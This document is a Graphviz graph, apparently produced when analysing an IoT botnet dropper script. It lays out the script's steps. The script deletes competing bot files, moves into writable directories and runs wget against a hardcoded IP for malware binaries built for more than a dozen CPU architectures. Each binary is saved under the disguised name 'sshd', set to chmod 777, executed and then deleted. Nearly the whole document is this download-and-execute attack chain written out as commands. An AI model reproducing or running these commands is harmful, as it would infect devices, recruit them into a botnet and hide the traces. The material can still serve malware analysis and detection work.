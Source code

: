 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="rm -fr ami* "];
2 -> 2
4 [label="rm -fr gtop.sh gtopb1.sh gtopb2.sh gtopb3.sh gtopb4.sh ftp.sh ftp0.sh ftpb1.sh ftpb2.sh ftpb3.sh ftpb4.sh tftpb1.sh tftpb2.sh ttftp1b1.sh ttftpb2.sh tttftp1b1.sh tttftp7.sh ftpm0.sh "];
4 -> 4
6 [label="rm -fr jackmy* poundmy* rapemy* smokemy* kekmy* breakmy* "];
6 -> 6
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 22 [label="||,"];
22 [label="wget http://128.199.40.73/amimips "];
22 -> 24 [label=";,"];
24 [label="cat amimips sshd "];
24 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 50 [label="||,"];
50 [label="wget http://128.199.40.73/amimips64 "];
50 -> 52 [label=";,"];
52 [label="cat amimips64 sshd "];
52 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 78 [label="||,"];
78 [label="wget http://128.199.40.73/amimipsel "];
78 -> 80 [label=";,"];
80 [label="cat amimipsel sshd "];
80 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 106 [label="||,"];
106 [label="wget http://128.199.40.73/amish2eb "];
106 -> 108 [label=";,"];
108 [label="cat amish2eb sshd "];
108 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 134 [label="||,"];
134 [label="wget http://128.199.40.73/amish2elf "];
134 -> 136 [label=";,"];
136 [label="cat amish2elf sshd "];
136 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 162 [label="||,"];
162 [label="wget http://128.199.40.73/amish4 "];
162 -> 164 [label=";,"];
164 [label="cat amish4 sshd "];
164 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 190 [label="||,"];
190 [label="wget http://128.199.40.73/amix86 "];
190 -> 192 [label=";,"];
192 [label="cat amix86 sshd "];
192 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 218 [label="||,"];
218 [label="wget http://128.199.40.73/amii486 "];
218 -> 220 [label=";,"];
220 [label="cat amii486 sshd "];
220 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 246 [label="||,"];
246 [label="wget http://128.199.40.73/amii586 "];
246 -> 248 [label=";,"];
248 [label="cat amii586 sshd "];
248 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 274 [label="||,"];
274 [label="wget http://128.199.40.73/amii686 "];
274 -> 276 [label=";,"];
276 [label="cat amii686 sshd "];
276 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 302 [label="||,"];
302 [label="wget http://128.199.40.73/amipowerpc "];
302 -> 304 [label=";,"];
304 [label="cat amipowerpc sshd "];
304 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 330 [label="||,"];
330 [label="wget http://128.199.40.73/amipowerpc440fp "];
330 -> 332 [label=";,"];
332 [label="cat amipowerpc440fp sshd "];
332 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 358 [label="||,"];
358 [label="wget http://128.199.40.73/amim86k "];
358 -> 360 [label=";,"];
360 [label="cat amim86k sshd "];
360 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 386 [label="||,"];
386 [label="wget http://128.199.40.73/amisparc "];
386 -> 388 [label=";,"];
388 [label="cat amisparc sshd "];
388 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 414 [label="||,"];
414 [label="wget http://128.199.40.73/amiarmv4 "];
414 -> 416 [label=";,"];
416 [label="cat amiarmv4 sshd "];
416 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 442 [label="||,"];
442 [label="wget http://128.199.40.73/amiarmv4tl "];
442 -> 444 [label=";,"];
444 [label="cat amiarmv4tl sshd "];
444 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 470 [label="||,"];
470 [label="wget http://128.199.40.73/amiarmv5 "];
470 -> 472 [label=";,"];
472 [label="cat amiarmv5 sshd "];
472 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 498 [label="||,"];
498 [label="wget http://128.199.40.73/amiarmv6 "];
498 -> 500 [label=";,"];
500 [label="cat amiarmv6 sshd "];
500 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
}
